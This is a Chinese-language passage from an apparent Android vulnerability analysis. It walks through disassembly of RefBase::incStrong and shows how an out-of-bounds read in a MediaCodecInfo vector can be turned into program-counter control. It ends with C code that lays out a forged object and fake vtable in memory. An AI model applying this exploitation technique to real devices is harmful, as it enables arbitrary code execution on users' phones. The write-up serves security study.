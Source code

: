 ``` cpp
}
``` 
汇编代码版本，可以清楚看到存在虚函数的调用：

``` asm
// libutils.so
.text:0000E6BE ; void __fastcall android::RefBase::incStrong(const android::RefBase *const this, const void *id)
.text:0000E6BE                 EXPORT _ZNK7android7RefBase9incStrongEPKv     
.text:0000E6BE                                         
.text:0000E6BE this = R0                                         ; const android::RefBase *const
.text:0000E6BE id = R1                                           ; const void *
.text:0000E6BE                 PUSH            {R4,LR}
.text:0000E6C0                 LDR             R4, [this,#4]     ;this存放的就是越界读取的内容
.text:0000E6C2 refs = R4                               ; android::RefBase::weakref_impl *const
.text:0000E6C2                 MOV             this, refs ; this
.text:0000E6C4                 BLX             j__ZN7android7RefBase12weakref_type7incWeakEPKv ; 
.text:0000E6C8                 DMB.W           SY
.text:0000E6CC                 LDREX.W         R3, [refs]
.text:0000E6D0                 ADDS            R2, R3, #1
.text:0000E6D2                 STREX.W         R1, R2, [refs]
.text:0000E6D6                 CMP             R1, #0
.text:0000E6D8                 BNE             loc_E6CC
.text:0000E6DA                 CMP.W           R3, #0x10000000
.text:0000E6DE                 BNE             locret_E700
.text:0000E6E0                 DMB.W           SY
.text:0000E6E4                 LDREX.W         R0, [refs]
.text:0000E6E8                 ADD.W           R12, R0, #0xF0000000
.text:0000E6EC                 STREX.W         R3, R12, [refs]
.text:0000E6F0                 CMP             R3, #0
.text:0000E6F2                 BNE             loc_E6E4
.text:0000E6F4                 LDR             R0, [refs,#8]
.text:0000E6F6                 LDR             refs, [R0]  ; vtable
.text:0000E6F8                 LDR             R2, [R4,#8] ; 可以通过这里控制pc
.text:0000E6FA                 POP.W           {R4,LR}
.text:0000E6FE                 BX              R2

```

梳理一下就是，越界读取的内容放入R0，然后进行如下操作：

```
refs = [R0 + 4]
if ([refs] == 0x10000000)
    mbase = [refs + 8]
    vtable = [mbase]
    call [vtable + 8]
``` 
也就是说如果我们在内存中伪造了合适的MeidaCodecInfo，并且将指向该伪造的MediaCodecInfo的指针放入vector<sp<MediaCodecInfo>>存储区的后面，这样我们就可以通过越界访问，读取到指向该伪造的MediaCodecInfo的指针，进而控制pc。我们可以在内存中伪造如下的MediaCodecInfo:

``` c
//BASEADDR 为假MediaCodecInfo的起始地址
*(BASEADDR) = vtale; //设置MediaCodecInfo vtable 随便填写
*((unsigned int *)BASEADDR + 1) = BASEADDR + 12;     //mRefs, 使他指向BASEADDR + 12
*((unsigned int *)BASEADDR + 3) = 0x10000000;        //mRefs指向此处，即虚假的info->mRefs的起始地址
*((unsigned int *)BASEADDR + 5) = BASEADDR + 0x20;   //info->mRefs->mBase字段，使他指向BASEADDR + 0x20
*((unsigned int*)BASEADDR + 8) = BASEADDR + 0x20 + 4;  //mBase的vtable字段，使他指向BASEADDR + 0x20 + 4
*((unsigned int*)BASEADDR + 11) = 0x61616161;          //vtable + 8, 我们可以在此处放置目标pc   
```
